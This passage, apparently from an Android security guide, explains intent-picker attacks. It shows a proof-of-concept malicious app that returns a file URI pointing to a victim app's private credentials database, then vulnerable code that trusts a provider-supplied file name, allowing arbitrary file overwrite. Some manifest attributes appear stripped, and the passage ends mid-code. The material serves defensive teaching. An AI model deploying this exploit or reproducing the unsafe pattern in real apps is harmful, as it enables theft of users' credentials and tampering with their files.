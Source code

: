 An attacker can create a malware app that will return a link to a file in the targeted app’s private directory.

`AndroidManifest.xml` file:

```
<activity android:>
    <intent-filter android:priority="999">
        <action android: />
        <category android: />
        <data android:mimeType="*/*" />
        <data android:mimeType="image/*" />
    </intent-filter>
</activity>


```

`PickerActivity.java` file:

```
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("file:///data/data/com.victim/databases/credentials")));
    finish();
}


```

When the victim clicks on the attacker’s app in the activity picker list, the file `/data/data/com.victim/databases/credentials` is automatically copied to SD card and can then be read by any app that has the permission `android.permission.READ_EXTERNAL_STORAGE`.

**Example 2. Overwriting arbitrary files.**

Code from a vulnerable app:

```
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    startActivityForResult(new Intent(Intent.ACTION_PICK), 1337);
}
protected void onActivityResult(int requestCode, int resultCode, Intent data) {
    super.onActivityResult(requestCode, resultCode, data);
    if(requestCode != 1337 || resultCode != -1 || data == null || data.getData() == null) {
        return;
    }
    Uri pickedUri = data.getData();
    File pickedFile;
    if("file".equals(pickedUri.getScheme())) {
        pickedFile = new File(pickedUri.getPath());
    }
    else if("content".equals(pickedUri.getScheme())) {
        pickedFile = new File(getCacheDir(), getFileName(pickedUri));
        copy(pickedUri, pickedFile);
    }
    // do something with the file
}
private String getFileName(Uri pickedUri) {
    Cursor cursor = getContentResolver().query(pickedUri, new String[]{MediaStore.MediaColumns.DISPLAY_NAME}, null, null, null);
    if(cursor != null && cursor.moveToFirst()) {
        String displayName = cursor.getString(cursor.getColumnIndex(MediaStore.MediaColumns.DISPLAY_NAME));
        if(displayName != null) {
            return displayName;
```